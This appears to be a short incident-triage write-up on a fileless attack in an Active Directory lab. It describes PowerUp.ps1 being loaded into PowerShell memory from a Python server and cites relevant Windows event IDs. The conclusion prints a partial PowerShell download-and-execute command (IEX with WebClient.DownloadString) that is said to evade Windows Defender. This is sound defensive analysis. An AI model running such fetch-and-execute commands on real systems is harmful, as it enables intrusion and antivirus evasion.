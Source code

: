 # Fileless Enumeration

![Fileless Download](resources/FIleless.png)

## Table of content

  1. [SECURITY EVENTS TRIAGE](#security-events-triage)
  2. [VULNERABILITY DETECTION](#vulnerability-detection)  
  3. [CONSLUSIONS](#conclusions)


## SECURITY EVENTS TRIAGE
## Table of content 

  1.1 [ACTIVE DIRECTORY SIDE](#active-directory-side)
  
  1.2 [CLIENT01 SID](#client01-side)
  
  
### ACTIVE DIRECTORY SIDE
After security events triage, the most important evidences could be find on the following list :

```
EVTX:
4104 x 49

```
Powershell load the script [PowerUp.ps1] on dynamic process memory:

![fileless Load_powerup](resources/fileless_load_1.png)

![fileless Load_powerup](resources/fileless_load_1.png)

### CLIENT01 SIDE
After security events triage, the most important evidences could be find on the following list :

```
EVTX:
5156

```
Python server with the [PowerUp.ps1] script content on the source machine:

![Python Server](resources/python_server.png)

## VULNERABILITY DETECTION

This section not contains vulnerabilities, the threat user abusse the privileges of user [worker01] for enumerate the Active Directory and look for the attack vector: 

![fileless output](resources/Fileless_ActiveDirectory.png)

## CONCLUSIONS

The threat actor, load directly on memory the required ps1 scripts for enumeration and bypass the Windows Defender RealTime monitoring using the following command:

```
IEX (New-Object net.webclient).DownloadString
```
